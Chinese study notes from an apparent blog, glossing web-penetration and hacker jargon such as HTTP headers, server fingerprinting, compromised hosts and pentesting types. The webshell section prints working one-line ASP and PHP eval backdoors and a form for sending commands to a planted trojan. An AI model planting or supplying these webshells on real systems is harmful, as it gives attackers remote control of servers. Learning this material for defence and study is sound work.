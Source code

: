 ```yaml
---
title: 关于Hacker的部分专业术语
date: 2021-05-16 15:53:07
tags:
- 学习笔记
categories:
- [计算机知识, Web渗透]
---
```


* 脚本（asp，php，jsp）
* html（css，js，html）

* HTTP协议
  超文本传输协议
  （HTTP，HyperText Transfer Protocol）是互联网上应用最为广泛的一种网络协议。所有的WWW文件都必须遵守这个标准。设计HTTP最初的目的是为了提供一种发布和接收HTML页面的方法。

  `HTTP头`讲解：

  ```raw
  [root@bt ~]# curl-I www.baidu.com
  HTTP/1.1 200 OK
  Date:Sat, 18 Apr 2015 16:42:13GMT
  Content-Type: text/html; charset=utf-8
  Connection: Keep-Alive
  Vary: Accept-Encoding
  Set-Cookie: BAIDUID=3098620FDEE24194CF6F5A853507E9BC:FG=l; expires=Thu, 31-Dec-37 23:55:55 GMT; max-age=2147483647; path=/; domain=.baidu.com
  Set-Cookie: BIDUPSID=3098620FDEE24194CF6F5A853507E9BC; expires=Thu, 31-Dec-37 23:55:55 GMT; max-age=2147483647; path=/; domain=.baidu.com
  Set-Cookie: BDSVRTM=0; path=/
  Set-Cookie: BD_HOME=0; path=/
  Set-Cookie: H_PS_PSSID=13421_1426_13466_13074_12825_13381_12868_13322_12691_13410_10562_12722_12735_13439_13086_13477_13324_12836_13491_13162_13256_8498; path=/; domain=.baidu.com
  P3P: CP= "OTI_DSP_COR_IVA_OUR_IND_COM"
  ```

  200 响应码
  date 日期
  content-type 类型
  Accept-Charset：浏览器可接收的字符集
  Content-Length：表示请求消息正文的长度
  Cookie：这是最重要的请求头信息之一

  参考网站：
  [curl 的用法指南](http://www.ruanyifeng.com/blog/2019/09/curl-reference.html)
  [HTTP响应头信息|菜鸟教程](https://www.runoob.com/http/http-header-fields.html)
  [HTTP头部信息详解](https://www.cnblogs.com/wait59/p/13736601.html)
  [HTTP头部详解](https://blog.csdn.net/sinat_34166518/article/details/83584910)

  * 静态网站：
    静态网站是指全部由HTML（标准通用标记语言的子集）代码格式页面组成的网站，所有的内容包含在网页文件中。网页上也可以出现各种视觉动态效果，如：GIF动画、Flash动画、滚动字幕等，而网站主要是静态化的页面和代码组成，一般文件名均以htm、html、shtml等为后缀。
    如：http://www.xxx.com/index.html

  * 动态网站：
    动态网站并不是指具有动画功能的网站，而是指网站内容可根据不同情况动态变更的网站，一般情况下，动态微网站通过数据库进行架构。
    动态网站除了要设计网页外，还要通过数据库和编程序来使网站具有更多自动的和高级的功能。动态网站体现在网页一般是以asp，jsp，php，aspx等结尾，而静态网页一般是HTML结尾，动态网站服务器空间配置要比静态的网页要求高，费用也相应的高，不过动态网页利于网站内容的更新，适合企业建站。动态网站是相对于静态网站而言。
    如：http://xxx.com.cn/index.asp

  判断一个网站是什么编程语言写的，网站地址末尾加上index.asp/jsp/php/html等，也可加上robots.txt，有的是没有的，防止机器爬虫
  判断Linux系统还是Windows系统，把网页地址中的文件后缀其中一个字母改为大写，如不报错，即为Windows。（Linux系统大小写敏感，Windows系统不敏感）

  * 伪静态：
    “伪静态”顾名思义就是一种表面上看似是静态网页（以.html、.htm等结尾），不存在任何的数据交互，却其实是动态网页，存在数据交互的网站，具有这种特性的网页被称为“伪静态网页”。我们看到的伪静态网页其实是经过处理的，将动态网页的id等参数通过URL重写来隐藏，让查看者以为是静态网页。
    参考网站：
    [Web安全-伪静态网页](https://blog.csdn.net/weixin_39190897/article/details/104150886)

* CMS（B/S）
* MD5
* 肉鸡：被黑客入侵并被长期驻扎的计算机or服务器
* 抓鸡：利用大量的程序漏洞，使用自动化方式获取肉鸡的行为
* 漏洞：硬件，软件，协议等等的可利用安全缺陷，可能被攻击者利用，对数据进行篡改，控制等
* Webshell：通过Web入侵的一种脚本工具，可以据此对网站服务进行一定程度打的控制

* 一句话【木马】：
  通过向服务端提交一句简短的代码，配合本地客户端实现Webshell功能的木马。

  ```raw
  <%eval request(“pass”)%>
  <%execute (request(“pass”))%>
  ```

  request(“pass”)接收客户端提交的数据，pass为执行命令的参数值。
  eval / execute 函数执行客户端命令的内容。

  这种木马一般会被安全狗拦截
    如：PHP的一句话木马：

    ```php
    <?php eval($_POST[cracer]);?>
    ```

  下面的代码可以用POST的方式提交PHP语句，利用php脚本的各种函数，就可以实现执行系统命令，修改数据库、增删改文件等的各种功能。

    ```php
    <form method=post action=http://木马地址>
         <textarea name=yourname>
               //这里写php代码
               phpinfo();
         </textarea>
         <input type=submit>
    </from>
    ```

* 提权： 操作系统低权限的账户将自己提升为管理员权限使用的方法。
* 后门：黑客为了对主机进行长期的控制，在机器上种植的一段程序或留下的一个“入口”。

* 跳板：使用肉鸡IP来实施攻击其他目标，以便更好地隐藏自己的身份信息。
* 旁站入侵：
即同服务器下的网站入侵，入侵之后可以通过提权跨目录等手段拿到目标网站的权限。
常见的旁站查询工具有：
WebRobot、御剑、明小子和Web在线查询等。

* C段入侵：
即同C段服务器入侵，如目标ip为192.168.1.253入侵192.168.1.xxx的任意一台机器，然后利用一些黑客工具嗅探获取在网络上传输的各种信息。
常用的工具有：
Window环境——Cain
UNIX环境——Sniffit，Snoop，Tcpdump，Dsniff，etc.

* 渗透测试：
  * 黑盒测试：
    * 在未授权的情况下，摸你黑客的攻击方法和思维方式，来评估计算机网络系统可能存在的安全风险。
    * 黑盒测试不同于黑客入侵，并不等于黑站。黑盒测试考验的是综合能力（OS，Datebase，Script，code，思路，社工）
    * 思路与经验积累往往决定成败

  * 白盒测试：
    * 相对黑盒测试，白盒测试基本是从内部发起

  * 黑白盒的另一种说法：
    * 知道源代码和不知道源代码的渗透测试
这时，黑盒测试还是传统的渗透测试，而白盒测试就偏向于代码审计。

* APT攻击：
  * Advanced Persistent Threat（高级可持续性攻击）
  * 是指组织（especially the government）或者小团体利用先进的攻击手段对特定目标进行长期持续性网络攻击的攻击形式。
  * 特点：
    1. 极强的隐蔽性
    2. 潜伏期长，持续性强
    3. 目标性强

渗透测试的特点：

1. 充满挑战与刺激——不达目的不罢休
2. 思路与经验累积往往决定成败
